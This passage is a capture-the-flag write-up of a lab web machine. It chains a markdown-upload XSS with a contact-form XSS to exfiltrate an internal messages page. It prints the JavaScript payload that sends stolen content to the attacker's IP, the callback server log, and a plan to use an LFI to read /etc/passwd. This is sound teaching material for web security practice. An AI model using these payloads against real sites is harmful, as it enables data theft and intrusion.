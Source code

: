 Reviewing the login request, we can observe that the server is sending a Basic Authentication request. This may also be useful to us.

# Exploitation

Reviewing what we gathered so far, we can possibly chain the 2 XSS found using the hint given and also the suspicious `messages.php` endpoint by doing the following:

-   Create a malicious `.md` file that fetches the content of `messages.php` endpoint and send to our server.
-   Call the embedded script file using XSS in `contact.php` to display the internal files. 

```bash
❯ cat test.md
<script>
fetch("http://alert.htb/messages.php")
    .then(response => response.text())
    .then(data => {
    fetch("http://10.10.14.9/?shiro=" + encodeURIComponent(data));
    })
    .catch(error => console.error("Error fetching messages:", error));
</script>
```

Upload the `.md` file and get the embedded link in the source code of the webpage.

```bash
</script><a class="share-button" href="http://alert.htb/visualizer.php?link_share=676aa8c90b1985.30928944.md" target="_blank">Share Markdown</a></body>
```

Call the embedded script on `Contact Us` using the following XSS.

```bash
<script src="http://alert.htb/visualizer.php?link_share=676aa8c90b1985.30928944.md"></script>
```

Check for the call back on your web server.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.9 - "GET /?shiro=%0A HTTP/1.1" 200 -
10.10.11.44 - "GET /?shiro=%3Ch1%3EMessages%3C%2Fh1%3E%3Cul%3E%3Cli%3E%3Ca%20href%3D%27messages.php%3Ffile%3D2024-03-10_15-48-34.txt%27%3E2024-03-10_15-48-34.txt%3C%2Fa%3E%3C%2Fli%3E%3C%2Ful%3E%0A HTTP/1.1" 200 -
```

Decoding the message in CyberChef reveals the following.

```html
<h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>
```

Looks like a possible LFI vulnerability given the `file` parameter.

Lets revise our script to get the `/etc/passwd` file.
